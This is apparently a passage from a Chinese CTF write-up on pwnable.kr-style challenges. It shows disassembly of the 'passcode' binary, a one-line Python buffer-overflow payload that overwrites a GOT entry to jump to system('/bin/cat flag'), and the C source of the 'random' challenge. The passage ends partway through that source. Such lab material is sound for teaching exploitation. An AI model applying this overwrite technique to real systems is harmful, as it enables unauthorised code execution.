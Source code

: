 ```text
.text:08048598                 mov     eax, offset aEnterPasscode2 ; "enter passcode2 : "
.text:0804859D                 mov     [esp], eax      ; format
.text:080485A0                 call    _printf
.text:080485A5                 mov     eax, offset aD  ; "%d"
.text:080485AA                 mov     edx, [ebp+var_C]
.text:080485AD                 mov     [esp+4], edx
.text:080485B1                 mov     [esp], eax
.text:080485B4                 call    ___isoc99_scanf
.text:080485B9                 mov     dword ptr [esp], offset s ; "checking..."
.text:080485C0                 call    _puts
.text:080485C5                 cmp     [ebp+var_10], 528E6h
.text:080485CC                 jnz     short loc_80485F1
.text:080485CE                 cmp     [ebp+var_C], 0CC07C9h
.text:080485D5                 jnz     short loc_80485F1
.text:080485D7                 mov     dword ptr [esp], offset aLoginOk ; "Login OK!"
.text:080485DE                 call    _puts
.text:080485E3                 mov     dword ptr [esp], offset command ; "/bin/cat flag"
.text:080485EA                 call    _system
.text:080485EF                 leave
.text:080485F0                 retn
```

0x080485e3=134514147
### 实现:
```python
python -c 'print "A"*96+"\x00\xa0\x04\x08"+"134514147\n"' | ./passcode

```
## 6 random
```c
#include <stdio.h>


int main(){

        unsigned int random;

        random = rand();        // random value!

  

        unsigned int key=0;

        scanf("%d", &key);

  

        if( (key ^ random) == 0xdeadbeef ){

                printf("Good!\n");

                system("/bin/cat flag");

                return 0;

        }

  

        printf("Wrong, maybe you should try 2^32 cases.\n");

        return 0;
```